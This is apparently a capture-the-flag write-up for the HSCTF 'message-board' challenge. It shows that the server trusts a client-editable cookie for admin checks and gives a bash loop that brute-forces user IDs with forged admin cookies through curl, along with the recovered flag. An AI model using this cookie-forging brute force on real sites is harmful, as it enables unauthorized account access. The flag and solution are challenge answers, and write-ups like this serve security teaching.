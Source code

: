 # message-board (369 solves, 305 points)
## Description
Your employer, LameCompany, has lots of gossip on its company message board: message-board.hsc.tf. You, Kupatergent, are able to access some of the tea, but not all of it! Unsatisfied, you figure that the admin user must have access to ALL of the tea. Your goal is to find the tea you've been missing out on.

Your login credentials: username: ``kupatergent`` password: ``gandal``

Server code is attached (slightly modified).

[message-board-master.zip](https://hsctf.storage.googleapis.com/uploads/5c8d4d1d4114875f51aadb906055d0b4e46a5ef772bdd5fc5bbbfe68b90a3e1f/message-board-master.zip)
## Solution
After visiting the site and logging in with the provided credentials, I started snooping around with the developer console. Soon enough I checked the Cookies in the Application
tab. There is a cookie called ``userData`` that is being used to determine our identity. It's value is ``j%3A%7B%22userID%22%3A%22972%22%2C%22username%22%3A%22kupatergent%22%7D``

It looks to be URL encoded. The decoded version of the cookie is ``j:{"userID":"972","username":"kupatergent"}``. The ``app.js`` file contains the following:
```javascript

const users = [
    {
        userID: "972",
        username: "kupatergent",
        password: "gandal"
    },
    {
        userID: "***",
        username: "admin"
    }
]

app.get("/", (req, res) => {
    const admin = users.find(u => u.username === "admin")
    if(req.cookies && req.cookies.userData && req.cookies.userData.userID) {
        const {userID, username} = req.cookies.userData
        if(req.cookies.userData.userID === admin.userID) res.render("home.ejs", {username: username, flag: process.env.FLAG})
        else res.render("home.ejs", {username: username, flag: "no flag for you"})
    } else {
        res.render("unauth.ejs")
    }
})

```
This shows that the website is checking our ``userData`` cookie for the admin username and userId. If we get it right, we will get the flag. I wrote a bash script that curls
the target url with a session cookie and echos relative portions of the html.

This is the bash script:
```bash

#!/bin/bash
for uid in {0..999}
do
    OUTPUT=$(curl -b userData=j%3A%7B%22userID%22%3A%22$uid%22%2C%22username%22%3A%22admin%22%7D https://message-board.hsc.tf/ | grep -i -C 2 "flag")
    echo "uid: $uid"
    echo "${OUTPUT}"
done

```
I ran ``./getUid.sh > outputOfCurl.txt``. After it was done I could grep the saved file for the flag:
```
$ cat outputOfCurl.txt | grep -i -C 2 flag{                                                                                                              
        <p><strong data-bs-toggle="tooltip" title="a super friendly person :)">Karen:</strong> Technically you're not hearing me.</p>
        <p><strong data-bs-toggle="tooltip" title="has had enough of this bs">Rosa:</strong> Okay, I'm heading out.</p>
        <p><strong data-bs-toggle="tooltip" title="what a cool name">HSCTF:</strong> flag{y4m_y4m_c00k13s}</p>
    </div>
</div>
```
## Flag
``flag{y4m_y4m_c00k13s}``
